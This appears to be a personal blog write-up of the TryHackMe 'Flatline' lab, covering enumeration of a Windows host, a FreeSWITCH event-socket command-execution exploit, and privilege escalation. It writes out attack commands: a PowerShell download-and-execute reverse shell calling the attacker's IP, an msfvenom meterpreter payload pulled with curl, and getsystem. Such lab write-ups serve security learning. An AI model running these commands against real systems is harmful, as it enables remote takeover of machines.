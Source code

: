 ```yaml
---
title: "TryHackMe - Flatline"
author: Nasrallah
description: ""
date: 2022-12-03 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, windows, easy]
img_path: /assets/img/tryhackme/flatline
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Flatline](https://tryhackme.com/room/flatline) from [TryHackMe](https://tryhackme.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 -Pn {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

- -Pn: Skip host discovery.

```terminal
Nmap scan report for 10.10.16.147 (10.10.16.147)
Host is up (0.065s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2022-10-31T07:14:54+00:00; -34m01s from scanner time.
| ssl-cert: Subject: commonName=WIN-EOM4PK0578N
| Not valid before: 2022-10-30T07:05:55
|_Not valid after:  2023-05-01T07:05:55
| rdp-ntlm-info: 
|   Target_Name: WIN-EOM4PK0578N
|   NetBIOS_Domain_Name: WIN-EOM4PK0578N
|   NetBIOS_Computer_Name: WIN-EOM4PK0578N
|   DNS_Domain_Name: WIN-EOM4PK0578N
|   DNS_Computer_Name: WIN-EOM4PK0578N
|   Product_Version: 10.0.17763
|_  System_Time: 2022-10-31T07:14:48+00:00
8021/tcp open  freeswitch-event   FreeSWITCH mod_event_socket
```

We found two open ports. Port 3389 is running RDP and port 8021 is running freeswitch which is a free and open-source software defined telecommunications stack for real-time communication, WebRTC, telecommunications, video, and Voice over Internet Protocol.

It also come with mod_event_socket which is a TCP based interface to control FreeSWITCH and is enabled by default.

Searching for available exlploits in this service we find the following.

```terminal
$ searchsploit freeswitch                          
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
FreeSWITCH - Event Socket Command Execution (Metasploit)                                                                   | multiple/remote/47698.rb
FreeSWITCH 1.10.1 - Command Execution                                                                                      | windows/remote/47799.txt
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

There is a command execution exploit, let's copy it with `searchsploit -m windows/remote/47799.txt` and change the name to `exploit.py`.

Let's run the exploit

![](1.png)

I had to run the exploit multiple time before it gave me a result, not really sure why is that.

## **Foothold**

Let's now get a reverse shell by using this [script](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1). Download it and serve it with an http server(python3 -m http.server).

Now set up a listener and on the attacking machine with `nc -lvnp 9001`.

Now we need to execute the following command:

```powershell
powershell iex (New-Object Net.WebClient).DownloadString('http://10.18.0.188/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.18.0.188 -Port 9001
```

![](2.png)


## **Privilege Escalation**

For this part, I decided to get a meterpreter shell. I generated a payload using the following command.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.18.0.188 lport=7777 -f exe > meta.exe
```

Then we serve the file with python http server.

After that we upload the file the compromised machine using the following command:

```shell
curl http://10.18.0.188/meta.exe -o meta.exe
```

![](3.png)

Now we go setup a multi handler in metasploit and execute the meta.exe file with `./meta.exe` to get a meterpreter shell.

![](5.png)

We can escalate our privileges to administrator by executing `getsystem`.

![](4.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
